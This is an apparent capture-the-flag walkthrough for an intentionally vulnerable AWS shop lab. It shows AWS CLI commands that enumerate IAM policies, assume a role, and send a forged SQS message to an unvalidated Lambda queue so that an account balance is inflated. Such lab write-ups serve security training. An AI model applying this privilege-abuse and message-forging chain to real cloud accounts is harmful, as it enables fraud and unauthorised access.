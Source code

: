 1. The attacker accesses the web page and identifies the features first
  
    [ page ] → what can do  
    /        → User can buy items.  
    /receipt → User can see the purchase.  
    /charge  → User can charge the cash.
  
  
2. The attacker checks the privileges it has
  
    ```bash
    # This command will configure AWS CLI settings for a specific profile, allowing you to set credentials
    aws configure --profile [profile_name]
    # This command will give you the ARN & full name of you user.
    aws --profile [profile_name] sts get-caller-identity
    # This command will list the policies attached to your user.
    aws --profile [profile_name] iam list-user-policies --user-name [user_name]
    # This command will view the permissions granted to inline policies.
    aws --profile [profile_name] iam get-user-policy --user-name [user_name] --policy-name [polict_name]
    ```  
※ Attacker finds that they have assume-role privileges for a particular role.  
※ Attacker looks for clues about how to attack using this privilege.
  
    
3. Find the web source code. By analyzing the source code, the attacker checks the format of message sent to the SQS service
  
    ※ The website has a github address exposed as an annotation.  
    → https://github.com/BoB12-C-G-V/FLAG-Shop
  
    < Code Analysis Results >- When charging the cash, a message is sent to the SQS service.  
    - The lambda function does not verify the received message.  
    - The message format is `{"charge_amount" : cash}`  
  
※ Attacker plans to forge the cache and send message to the SQS service.  
  

4. Assume the the sending message role about SQS service
    
    ```bash
    # This command will get you credentials for the role that can send message to SQS service
    aws --profile [profile_user] sts assume-role --role-arn [role_arn] --role-session-name [whatever_you_want_here]
    # This command will configure AWS CLI settings for a specific profile, allowing you to set credentials 
    aws configure --profile [assumed_profile_name]
    # This command will appends the obtained session token to the ~/.aws/credentials file
    echo "aws_session_token = {얻은 토큰}" >> ~/.aws/credentials
    ```


5. The attacker, who possesses the necessary permissions, sends a forged message to the SQS service queue
    
    ```bash
    # This command wil get you queue-url of SQS service
    aws --profile [assumed_profile_name] sqs get-queue-url --queue-name cash_charging_queue
    # This command wil sends a forged message to the SQS service queue
    aws --profile [assumed_profile_name] sqs send-message --queue-url [queue_url] --message-body '{"charge_amount": 100000000}'
    ```


6. Check the changed assets, purchase FLAG and check the secret-string
